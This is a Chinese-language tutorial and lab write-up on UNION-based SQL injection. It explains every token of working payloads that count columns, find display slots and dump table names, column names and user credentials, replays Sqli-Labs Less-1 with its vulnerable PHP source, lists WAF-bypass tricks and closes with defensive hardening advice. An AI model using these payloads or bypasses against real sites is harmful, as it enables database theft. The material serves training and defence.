

# 💉 联合查询注入原理与全参数逐字拆解

> **学习目标**：掌握 `UNION SELECT` 联合查询注入的底层机制、闭合条件，吃透 Payload 中的每一个关键字、函数与十六进制参数的作用，并通过完整靶场赛题实现脱库。

---

## 0. 基础前置认知与小白扫盲：什么是联合查询注入？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 1. 通俗比喻：在原账本下方无缝拼接黑客的秘密私账
* **`UNION SELECT` 的数学本质**：
  * 在数据库中，`UNION` 是集合的“并集运算”，它允许将两条完全不同的 `SELECT` 查询结果，**像叠积木一样上下拼接在同一张表格里返回给前端**！
  * 正常查询查的是文章内容（`SELECT title, content FROM article WHERE id=1`）；
  * 黑客拼接的查询查的是管理员密码（`SELECT username, password FROM admin`）；
  * **结果**：原本用来展示新闻文章的网页前端页面，瞬间变成了展示管理员密码的绝佳舞台！

---

### 2. 联合查询两大铁律与参数逐字拆解
* **铁律一：前后的列数必须完全相等！**
  * 如果前半句查了 3 列，你的 `UNION SELECT` 就必须写 3 列（如 `UNION SELECT 1,2,3`），多一列或少一列数据库直接抛出错误 `The used SELECT statements have a different number of columns`。
  * **为什么必须用 `ORDER BY 1, 2, 3...` 探测？**
    * `ORDER BY n` 表示按查询结果的第 $n$ 列排序。如果按第 3 列排序正常，按第 4 列排序报错，说明原查询正好有 3 列！
* **铁律二：让前半部分的原查询查无此人（例如 `id=-1`）！**
  * 网页前端界面往往只设计了显示一条数据的坑位（只渲染第一行）；
  * 如果原查询 `id=1` 查到了真实文章，它就会霸占这个坑位，黑客查出的密码就被挤到了第二行无法在屏幕上显现；
  * 因此黑客必须在前面输入一个绝对不存在的 ID（如 `id=-1` 或 `id=999999`），**迫使原查询返回空结果，让黑客的 `UNION SELECT` 顺理成章登顶成为第 1 行直接回显在屏幕上！**

---




## 一、底层原理与前置条件

### 1. 什么是 UNION 操作符？
`UNION` 是 SQL 标准中的联合查询操作符，用于将两条或多条 `SELECT` 查询语句的结果集**垂直合并**为一个单一的结果集展示给客户端。

在正常业务代码中，后台常有如下查询：
```sql
SELECT id, username, password FROM users WHERE id = '$id';
```
当 `$id` 参数可控且未经过滤拼接时，攻击者注入 `UNION SELECT` 即可强制让数据库把攻击者自定义的数据作为查询结果的一部分返回到 Web 页面上。

### 2. 联合查询成功的两大刚性约束
在构造 `UNION` 语句时，必须严格满足以下两个底层数据库规则，否则数据库引擎将抛出致命语法错误终止执行：
1. **列数一致性**：`UNION` 前后的两个 `SELECT` 语句，其**查询字段的列数必须完全相等**。若原查询查了 3 列，`UNION SELECT` 必须刚好也是 3 列。
2. **数据类型兼容性**：在部分强类型数据库（如 Oracle、PostgreSQL）中，对应列的数据类型必须相互兼容（如字符串对字符串，数字对数字）。在 MySQL / MariaDB 中，类型转换较为宽松，通常可以用数字或字符串占位。

---

## 二、利用全流程与 Payload 参数逐字拆解

完整的联合查询注入分为 4 个标准步骤。下面针对每一步使用的 Payload 做**逐字、逐参数深度剖析**。

---

### 第一步：探测原查询列数（Order By 探测法）

#### 常用 Payload：
```sql
?id=1' ORDER BY 3 --+
?id=1' ORDER BY 4 --+
```

#### 🔍 逐参数/关键字作用拆解：
| 关键字 / 符号 | 语法作用与底层行为 | 为什么这样写？ |
| :--- | :--- | :--- |
| `'` (单引号) | **闭合符**。提前闭合原 SQL 语句中前面的单引号（如 `WHERE id = '1...'`），逃逸出字符串边界。 | 如果后端是数字型则无需单引号；若是 `"` 或 `')'` 则需对应替换闭合符。 |
| `ORDER BY` | SQL 排序子句。指示数据库按指定列对结果进行升序/降序排列。 | 数据库允许传入**列的数字索引**（1-based 序号）代替实际列名。 |
| `3` / `4` | **列索引序号**。`ORDER BY 3` 代表“以查询结果集的第 3 个字段进行排序”。 | 若原查询只选了 3 列，则 `ORDER BY 3` 正常回显；当递增到 `ORDER BY 4` 时，因超出有效列范围，MySQL 会直接抛出错误 `Unknown column '4' in 'order clause'`，由此可**精确定位原查询正好有 3 列**。 |
| `--+` | **SQL 注释符**。`--` 后面必须带一个空格，但在 URL 中空格会被转义吞噬，因此使用 `+` 代表空格（URL 解码后为空格）。 | 用于将后端原 SQL 语句后半截的所有剩余代码（如原有的 `' LIMIT 0,1` 等）完全注释忽略掉，防止产生语法截断错误。在 Linux 靶场中也可使用 `%23`（即 `#`）。 |

---

### 第二步：确定页面回显位（让原查询置空）

#### 常用 Payload：
```sql
?id=-1' UNION SELECT 1, 2, 3 --+
```

#### 🔍 逐参数/关键字作用拆解：
| 关键字 / 符号 | 语法作用与底层行为 | 为什么这样写？ |
| :--- | :--- | :--- |
| `id=-1'` | **置空原查询结果**。传入一个数据库中绝对不存在的主键 ID（如 `-1`、`0`，或拼接 `and 1=2`）。 | Web 页面往往只渲染第一行数据（通过 `mysql_fetch_array` 提取第 0 行）。如果不让第一条查询返回空集，页面回显永远是合法用户的正常信息，你看不到 `UNION` 拼在后面的恶意数据。 |
| `UNION` | 联合操作符。要求合并两个结果集。默认行为等价于 `UNION DISTINCT`（去重）。 | 若有特殊字符要求，有时可用 `UNION ALL`（包含重复行，性能更快）。 |
| `SELECT 1, 2, 3` | 自定义查询。填充数量与探测出的列数（3列）完全相等的数字占位符。 | 提交后，页面哪个位置显示了数字 `2` 或 `3`，就代表该位置是**页面可见的回显位**。后续脱库函数就填在这个数字槽位上。 |

---

### 第三步：获取当前数据库名与版本信息

若页面上第 2 和第 3 列能够回显，我们把槽位 `2` 替换为环境探测函数：

#### 常用 Payload：
```sql
?id=-1' UNION SELECT 1, database(), version() --+
```

#### 🔍 逐参数/关键字作用拆解：
| 关键字 / 函数 | 底层返回值 | 实战价值 |
| :--- | :--- | :--- |
| `database()` | 返回当前正在使用的数据库名称（例如 `security`）。 | 获取库名是接下来查表名的核心过滤条件。 |
| `version()` | 返回 MySQL 服务器版本（例如 `5.7.26-log`、`8.0.32`）。 | 确认版本是否 $\ge 5.0$。MySQL 5.0 以上版本才有自带的元数据库 `information_schema`；5.0 以下则只能靠暴力猜解表名。 |
| `user()` | 返回当前连接数据库的用户名和主机（例如 `root@localhost`）。 | 确认当前权限是否为 `root` 或具备文件读写权限（`load_file` / `into outfile`）。 |

---

### 第四步：跨库提取目标表名与列名（深入 information_schema）

MySQL 5.0+ 默认内置了系统信息数据库 `information_schema`，它保存了整个数据库实例的所有元数据字典：
* `information_schema.schemata`：记录所有库名。
* `information_schema.tables`：记录所有表名。
* `information_schema.columns`：记录所有列名。

#### 1. 爆当前库的所有表名 Payload：
```sql
?id=-1' UNION SELECT 1, group_concat(table_name separator 0x2c), 3 FROM information_schema.tables WHERE table_schema=database() --+
```

#### 🔍 逐参数/关键字作用拆解：
| 关键字 / 参数 | 语法作用与底层行为 | 深入细节 |
| :--- | :--- | :--- |
| `group_concat(...)` | **聚合连接函数**。将查询到的多行 `table_name` 数据合并压缩成单行字符串输出。 | 默认 `SELECT` 会返回多行记录，但很多靶场页面只渲染一条记录。如果不加 `group_concat`，你只能看到第一个表名。 |
| `table_name` | 目标字段，表示数据表名称。 | 取自 `information_schema.tables` 表中的列。 |
| `separator 0x2c` | `group_concat` 的分隔符子句。`0x2c` 是 ASCII 逗号 `,` 的十六进制表示。 | **为什么不用 `separator ','`？** 因为使用十六进制写法可以**完全避免单引号**，能够天然绕过 PHP `magic_quotes_gpc` 或各种针对引号的转义过滤！ |
| `FROM information_schema.tables` | 从系统字典总表 `tables` 中检索数据。 | 该表记录了数据库内所有用户表与系统表的列表。 |
| `WHERE table_schema=database()` | **过滤条件**。指定只查询当前数据库所属的表。 | 若不加此约束，MySQL 会把所有系统库（`sys`、`mysql`、`performance_schema`）数以千计的表全部拼在一起导致缓冲区截断溢出。 |

---

#### 2. 爆指定表的所有列名 Payload：
假设我们刚才爆出了一个敏感表 `users`：
```sql
?id=-1' UNION SELECT 1, group_concat(column_name separator 0x3a), 3 FROM information_schema.columns WHERE table_schema=database() AND table_name=0x7573657273 --+
```

#### 🔍 逐参数/关键字作用拆解：
| 关键字 / 参数 | 语法作用与底层行为 | 深入细节 |
| :--- | :--- | :--- |
| `column_name` | 目标字段，表示数据表中的列名/字段名。 | 取自 `information_schema.columns` 表。 |
| `separator 0x3a` | 分隔符。`0x3a` 是冒号 `:` 的十六进制表示。 | 换用不同分隔符方便人眼区分列。 |
| `table_name=0x7573657273` | **等价于 `table_name='users'`**。字符串 `users` 的十六进制 ASCII 编码。 | 同样是**无引号注入技术**。将待查表名转为 Hex，绕过引号过滤。 |

---

#### 3. 最终提取敏感数据 Payload：
知道了表名为 `users`，列名包含 `username` 和 `password`：
```sql
?id=-1' UNION SELECT 1, group_concat(username, 0x7e, password separator 0x3b), 3 FROM users --+
```

#### 🔍 逐参数/关键字作用拆解：
| 关键字 / 参数 | 语法作用与底层行为 | 深入细节 |
| :--- | :--- | :--- |
| `0x7e` | 波浪号 `~` 的十六进制 ASCII 码。 | 作为账号与密码之间的字段连字符，防止数据黏连（如生成 `admin~123456;guest~guest`）。 |
| `separator 0x3b` | 分号 `;` 的十六进制 ASCII 码。 | 区分不同用户的各行数据。 |
| `FROM users` | 直接从当前数据库的目标业务表 `users` 中读取最终数据。 | 完成脱库闭环。 |

---

## 三、经典实战例题：Sqli-Labs Less-1 深度复现

### 1. 靶场环境与后端源码分析
靶场环境：MySQL 5.7 + PHP 7.3 (Sqli-Labs Less-1)
后端核心查询源码如下：

```php
// 漏洞成因：变量 $id 直接用单引号包裹并拼入 SQL 语句中，未经过 prepare 预编译
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result = mysqli_query($con, $sql);
$row = mysqli_fetch_array($result);

if($row) {
    echo "<font size='5' color= '#99FF00'>";
    echo 'Your Login name:'. $row['username'];
    echo "<br>";
    echo 'Your Password:' .$row['password'];
    echo "</font>";
} else {
    echo '<font color= "#FFFF00">';
    print_r(mysqli_error($con));
    echo "</font>";
}
```

### 2. 漏洞复现操作流

#### 步骤 1：判断闭合符
输入 `?id=1'`，页面报错：
```text
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
```
> **代码审计结论**：抛出语法错误说明存在注入；看报错中多出的单引号，确认闭合字符为单引号 `'`。

#### 步骤 2：测试字段数量
输入：`?id=1' ORDER BY 3 --+` $\rightarrow$ 页面正常显示。
输入：`?id=1' ORDER BY 4 --+` $\rightarrow$ 页面报错：`Unknown column '4' in 'order clause'`。
> **结论**：原 SQL 语句查询了 **3 个字段**。

#### 步骤 3：获取回显位
输入：`?id=-1' UNION SELECT 1, 2, 3 --+`
页面展示：
```text
Your Login name: 2
Your Password: 3
```
> **结论**：位置 `2`（username）和位置 `3`（password）均具有回显能力！

#### 步骤 4：查当前库与所有表名
输入：
```text
?id=-1' UNION SELECT 1, database(), group_concat(table_name separator 0x2c) FROM information_schema.tables WHERE table_schema=database() --+
```
回显：
```text
Your Login name: security
Your Password: emails,referers,uagents,users
```

#### 步骤 5：查 users 表的所有列
输入：
```text
?id=-1' UNION SELECT 1, 2, group_concat(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name=0x7573657273 --+
```
回显：
```text
Your Password: id,username,password
```

#### 步骤 6：拖库获取所有密码
输入：
```text
?id=-1' UNION SELECT 1, 2, group_concat(username, 0x3a, password separator 0x7c) FROM users --+
```
最终获取数据：
```text
Dumb:Dumb|Angel:Angel|Dummy:p@ssword|secure:crappy|admin:admin
```

---

## 四、高级进阶与避坑指南

### 1. 为什么不用普通空格而必须使用 `--+`？
在浏览器地址栏发请求时，直接输入的空格会被浏览器编码为 `%20`。
若你在 URL 中写 `-- `，某些浏览器或中间件会自动吃掉尾部空格，导致进入数据库时变成 `--'`，此时 `--'` 会被当成连字符而不是注释，语句发生语法错误。
写 `--+` 时，`+` 在 URL 解码规则中会被准确解析为一个实际空格，从而构成合法的 `-- ` 注释。

### 2. 当 `UNION` 被 WAF 拦截时的变种变形
如果目标 WAF 对关键字进行了粗暴过滤，常见高级绕过思路包括：
* **大小写与复写**：`uNiOn sElEcT` 或 `ununionion seleselectct`
* **内联注释插入**：`/*!50000UNION*//*!50000SELECT*/`
* **空白符置换**：用 `%0a`（换行）、`%0c`、`/**/` 替换空格。
* **分块传输编码（Chunked Transfer）**：在 POST 请求中使用分块传输绕过应用层 WAF 规则检测。

---

## 🔗 相关双向链接
- 上级模块：[[02-SQL注入体系]]
- 前置基础：[[SQL注入分类与闭合判断深度精解]]
- 下级拓展：[[UpdateXML与ExtractValue报错注入剖析]]
- 实战总览：[[00-Web安全与CTF知识地图总览]]

---
## 纵深防御与安全加固基线

> [!IMPORTANT]
> **联合查询防御的核心哲学**：联合查询注入高度依赖“页面回显原查询结果”以及“未参数化的列拼接”，防御必须阻断数据通道与拼接途径：

1. **强制 ORM 框架安全编码规范**：
   * 在使用 MyBatis 等持久层框架时，必须强制要求所有字段查询使用 `#{}` 占位符语法，严厉禁止在动态字段名、排序字段（`ORDER BY`）处使用直接拼接的 `${}` 占位符。
   * 若必须动态指定排序列名，必须在 Java 代码中采用严格的枚举白名单匹配映射：
   ```java
   // 安全示范：ORDER BY 字段枚举白名单映射
   List<String> validColumns = Arrays.asList("id", "create_time", "price");
   if (!validColumns.contains(sortBy)) {
       sortBy = "id"; // 非白名单字段强制回退为默认列
   }
   ```

2. **生产环境统一关闭数据库底层详细报错**：
   * 在生产环境配置文件中关闭数据库调试日志向客户端的抛出，后端统一捕获 `SQLException` 并返回标准业务错误码（如 `{"code": 500, "msg": "系统繁忙，请稍后再试"}`）。
   * 限制数据库账号对系统元数据字典（`information_schema`、`sys`、`performance_schema`）的读取权限，增加黑客自动化爬取表名列名的阻力。

3. **服务端结果集上限强制约束（LIMIT 兜底）**：
   * 对于查询单条详情的业务接口，在 SQL 语句末尾显式固定追加 `LIMIT 1`，避免黑客通过 `id=-1 UNION SELECT` 挤出多行数据；同时在后端数据映射层对敏感字段（密码散列、私钥凭据）进行不可逆脱敏过滤。
